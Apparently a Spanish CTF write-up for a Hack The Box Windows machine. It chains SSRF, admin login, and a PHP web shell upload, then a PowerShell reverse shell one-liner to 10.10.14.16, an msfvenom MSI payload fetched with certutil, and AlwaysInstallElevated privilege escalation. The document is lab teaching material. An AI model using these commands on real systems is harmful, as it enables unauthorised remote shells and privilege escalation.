import Banner from "../Banner.astro"
import bannerIMG from './banner.png'; 

<Banner image={bannerIMG} />

# Reconocimiento
Como siempre vamos a usar nmap para ver que puertos abiertos hay en esta máquina y sus respectivos servicios y versiones.

```bash
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.10.239
```



Me llama la atención que en el 443 hay un dominio, por lo cual lo añadiremos al /etc/hosts. Además veremos que hay en el puerto 80.



Tenemos un formulario de voto parece ser, vamos a ver que hay ahora en el 443.



Parece como un scanner de archivos, también se puede ver en el navbar que hay una página demo.



Nos pide que insertemos una URL para escanear, por lo que levantaremos un servidor web con python para probar.



# Explotación
Podemos ver que genera una especie de preview del enlace que le pasamos por lo que podríamos probar a poner como URL la propia página por el puerto 5000 a ver que hay, ya que de normal devuelve 403.



Podemos ver las credenciales de admin: `@LoveIsInTheAir!!!!`. Vamos a probarlas en love.htb/admin.



Investigando en las opciones que da el Dashboard podemos ver una función de añadir votantes. En ella nos pide una imagen opcional, pero podemos intentar subir una [shell](https://github.com/artyuum/simple-php-web-shell/blob/master/index.php) para PHP.



Podemos ver que ha funcionado y que las imágenes de los usuarios se guardan en la ruta images, por lo que accederemos a /images/shell.php.



Perfecto, ahora intentaremos establecer una reverse shell. Para ello me metí en revshells.com y busqué por la opción Powershell #2.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.16',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```bash
nc -lvnp 8888
```
Al mandar la solicitud la web se queda procesando pero nosotros ya hemos recibido la reverse shell.





Como siempre la flag user está en el escritorio del usuario que hemos comprometido. Ahora toca la elevación para poder conseguir la root flag. 

# Escalada de privilegios
Buscando en este [artículo](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/?source=post_page-----eb309edb37a2---------------------------------------) podemos generar un archivo instalador de tipo MSI ya que se instalan con permisos de Administrador, por lo que con msfvenom generaremos uno.   

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.16 lport=4445 -f msi -o system.msi
```

Una vez generado, podemos levantar un servidor web con python y descargarlo desde la shell ya establecida con:

```bash
certutil -f -urlcache http://10.10.14.16/system.msi system.msi
```

Y simplemente lo ejecutaremos con:

```bash
msiexec /quiet /qn /i system.msi
```

Al igual que antes vamos al escritorio de el usuario Administrador y vemos la root flag.

